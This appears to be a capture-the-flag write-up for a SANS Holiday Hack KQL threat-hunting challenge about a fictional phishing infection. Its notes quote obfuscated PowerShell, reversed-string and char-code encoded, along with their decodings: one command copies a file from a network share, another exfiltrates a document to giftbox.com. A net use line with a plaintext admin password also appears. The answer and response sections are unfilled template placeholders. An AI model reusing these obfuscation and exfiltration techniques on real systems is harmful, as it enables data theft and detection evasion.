

# KQL Kraken Hunt (submitted after deadline)

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star::fontawesome-regular-star: 
**Direct link**: [Kusto Detective](https://detective.kusto.io/sans2023)

## Objective

!!! question "Request"
    Use Azure Data Explorer to uncover misdeeds in Santa's IT enterprise. Go to Film Noir Island and talk to Tangle Coalbox for more information.

??? quote "Tangle Coalbox"
    Greetings, rookie. Tangle Coalbox of Kusto Detective Agency here.

I've got a network infection case on Film Noir Island that needs your expertise.

Seems like someone clicked a phishing link within a client's organization, and trouble's brewing.

I'm swamped with cases, so I need an extra pair of hands. You up for the challenge?

You'll be utilizing the Azure Data Explorer and those KQL skills of yours to investigate this incident.

Before you start, you'll need to create a free cluster.

Keep your eyes peeled for suspicious activity, IP addresses, and patterns that'll help us crack this case wide open.

Remember, kid, time is of the essence. The sooner we can resolve this issue, the better.

If you run into any problems, just give me a holler, I've got your back.

Good hunting, and let's bring this cyber criminal to justice.

Once you've got the intel we need, report back and we'll plan our next move. Stay sharp, rookie.

## Hints

??? tip "Outbound Connections"
    Do you need to find something that happened via a process? Pay attention to the ProcessEvents table!

??? tip "KQL Tutorial"
    Once you get into the Kusto trainer, click the blue Train me for the case button to get familiar with KQL.
    
??? tip "File Creation"
    Looking for a file that was created on a victim system? Don't forget the FileCreationEvents table.

## Solution

    Notes: Case 4 time stamp for the command to list network shares was actually not correct. The challenge accepted the timestamp of the net /share command rather than net use.
    
    Powershell code found:
    
    Invoke-WmiMethod -ComputerName $Server -Class CCM_SoftwareUpdatesManager -Name InstallUpdates - ArgumentList (, $PendingUpdateList) -Namespace root[&ccm&]clientsdk | Out-Null

cmd.exe /C net use \\NorthPolefileshare\c$ /user:admin AdminPass123

( 'txt.tsiLeciNythguaN\potkseD\:C txt.tsiLeciNythguaN\lacitirCnoissiM\$c\erahselifeloPhtroN\\ metI-ypoC c- exe.llehsrewop' -split '' | %{$_[0]}) -join ''

translates to: powershell -c Copy-Item \\NorthPoleFiles\c\MissionCritical\NiceList.txt C:\Desktop\NiceList.txt

[StRiNg]::JoIn( '', [ChaR[]](100, 111, 119, 110, 119, 105, 116, 104, 115, 97, 110, 116, 97, 46, 101, 120, 101, 32, 45, 101, 120, 102, 105, 108, 32, 67, 58, 92, 92, 68, 101, 115, 107, 116, 111, 112, 92, 92, 78, 97, 117, 103, 104, 116, 78, 105, 99, 101, 76, 105, 115, 116, 46, 100, 111, 99, 120, 32, 92, 92, 103, 105, 102, 116, 98, 111, 120, 46, 99, 111, 109, 92, 102, 105, 108, 101))|& ((gv '*MDr*').NamE[3,11,2]-joiN

converted to text:
downwithsanta.exe -exfil C:\\Desktop\\NaughtNiceList.docx \\giftbox.com\file
    
...

### Images

!!! success "Answer"
    Insert the answer to the objective here.

## Response

!!! quote "Tangle Coalbox"
    Copy the final part of the conversation with Elf Name here.
